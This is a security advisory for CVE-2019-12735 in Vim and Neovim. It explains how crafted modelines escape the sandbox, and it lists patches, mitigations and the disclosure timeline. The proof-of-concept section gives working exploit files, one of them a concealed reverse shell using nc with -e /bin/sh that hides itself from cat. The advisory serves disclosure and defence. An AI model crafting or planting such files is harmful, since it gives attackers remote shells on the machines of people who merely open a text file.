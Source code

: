 *by Arminius ([@rawsec](https://twitter.com/rawsec))*

Vim/Neovim Arbitrary Code Execution via Modelines
=================================================

```
Product: Vim < 8.1.1365, Neovim < 0.3.6
Type:    Arbitrary Code Execution
CVE:     CVE-2019-12735
Date:    2019-06-04
Author:  Arminius (@rawsec)
```

Summary
-------

Vim before 8.1.1365 and Neovim before 0.3.6 are vulnerable to arbitrary code
execution via modelines by opening a specially crafted text file.


Proof of concept
----------------

- Create `poc.txt`:

      :!uname -a||" vi:fen:fdm=expr:fde=assert_fails("source\!\ \%"):fdl=0:fdt="

- Ensure that the modeline option has not been disabled (`:set modeline`).

- Open the file in Vim:

      $ vim poc.txt

- The system will execute `uname -a`.

Proof of concept 2 (reverse shell)
----------------------------------

This PoC outlines a real-life attack approach in which a reverse shell
is launched once the user opens the file. To conceal the attack, the file will
be immediately rewritten when opened. Also, the PoC uses terminal escape
sequences to hide the modeline when the content is printed with `cat`. (`cat
-v` reveals the actual content.)

`shell.txt`:

    \x1b[?7l\x1bSNothing here.\x1b:silent! w | call system(\'nohup nc 127.0.0.1 9999 -e /bin/sh &\') | redraw! | file | silent! # " vim: set fen fdm=expr fde=assert_fails(\'set\\ fde=x\\ \\|\\ source\\!\\ \\%\') fdl=0: \x16\x1b[1G\x16\x1b[KNothing here."\x16\x1b[D \n

Demo (victim left, attacker right):

![Reverse shell demo](https://i.imgur.com/8w4tteX.gif)

Details
-------

The modeline feature allows to specify custom editor options near the start or
end of a file. This feature is enabled by default and applied to all file types,
including plain `.txt`. A typical modeline:

    /* vim: set textwidth=80 tabstop=8: */

For security reasons, only a subset of options is permitted in modelines, and
if the option value contains an expression, it is executed in a sandbox: [[1]]

    No other commands than "set" are supported, for security reasons (somebody
    might create a Trojan horse text file with modelines).  And not all options
    can be set.  For some options a flag is set, so that when it's used the
    |sandbox| is effective.

The sandbox is meant to prevent side effects: [[2]]

    The 'foldexpr', 'formatexpr', 'includeexpr', 'indentexpr', 'statusline' and
    'foldtext' options may be evaluated in a sandbox.  This means that you are
    protected from these expressions having nasty side effects.  This gives some
    safety for when these options are set from a modeline.

However, the `:source!` command (with the bang [`!`] modifier) can be used to
bypass the sandbox. It reads and executes commands from a given file as if
*typed manually*, running them after the sandbox has been left. [[3]]

    :so[urce]! {file}       Read Vim commands from {file}.  These are commands
                            that are executed from Normal mode, like you type
                            them.

Thus, one can trivially construct a modeline that runs code outside the sandbox:

    # vim: set foldexpr=execute('\:source! some_file'):

An additional step is needed for Neovim which blacklists `execute()`: [[4]]

    execute({command} [, {silent}])                         *execute()*
                    Execute {command} and capture its output.
                    [...]
                    This function is not available in the |sandbox|.

Here, `assert_fails()` can be used instead, which takes a `{cmd}` argument, too: [[5]]

    assert_fails({cmd} [, {error} [, {msg}]])               *assert_fails()*
                    Run {cmd} and add an error message to |v:errors| if it does
                    NOT produce an error.

The following modeline utilizes a fold expression to run `source!  %` to
execute the current file, which in turn executes `uname -a || "(garbage)"` as a
shell command:

    :!uname -a||" vi:fen:fdm=expr:fde=assert_fails("source\!\ \%"):fdl=0:fdt="

Additionally, the Neovim-only function `nvim_input()` is vulnerable to the same
approach via e.g.:

     vi:fen:fdm=expr:fde=nvim_input("\:terminal\ uname\ -a"):fdl=0

(In the past, other modeline-related vulnerabilities have been patched in Vim - see [CVE-2002-1377](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2002-1377), [CVE-2016-1248](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-1248).)

Patches
-------

- [Vim patch 8.1.1365](https://github.com/vim/vim/commit/5357552)
- [Neovim patch](https://github.com/neovim/neovim/pull/10082) (released in [v0.3.6](https://github.com/neovim/neovim/releases/tag/v0.3.6))

Beyond patching, it's recommended to disable modelines in the vimrc (`set
nomodeline`), to use the [securemodelines](https://github.com/ciaranm/securemodelines/)
plugin, or to disable `modelineexpr` (since patch 8.1.1366, Vim-only) to disallow
expressions in modelines.

Timeline
--------

    - 2019-05-22 Vim and Neovim maintainers notified
    - 2019-05-23 Vim patch released
    - 2019-05-29 Neovim patch released
    - 2019-06-05 CVE ID CVE-2019-12735 assigned

Also see description of [CVE-2019-12735](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-12735).

[1]: https://github.com/vim/vim/blob/5c017b2de28d19dfa4af58b8973e32f31bb1477e/runtime/doc/options.txt#L582
[2]: https://github.com/vim/vim/blob/5c017b2de28d19dfa4af58b8973e32f31bb1477e/runtime/doc/eval.txt#L13050
[3]: https://github.com/vim/vim/blob/5c017b2de28d19dfa4af58b8973e32f31bb1477e/runtime/doc/repeat.txt#L182
[4]: https://github.com/neovim/neovim/blob/1060bfd0338253107deaac346e362a9feab32068/runtime/doc/eval.txt#L3247
[5]: https://github.com/neovim/neovim/blob/1060bfd0338253107deaac346e362a9feab32068/runtime/doc/eval.txt#L2494
[6]: https://github.com/vim/vim/releases/tag/v8.1.1365
[7]: https://github.com/neovim/neovim/releases/tag/v0.3.6
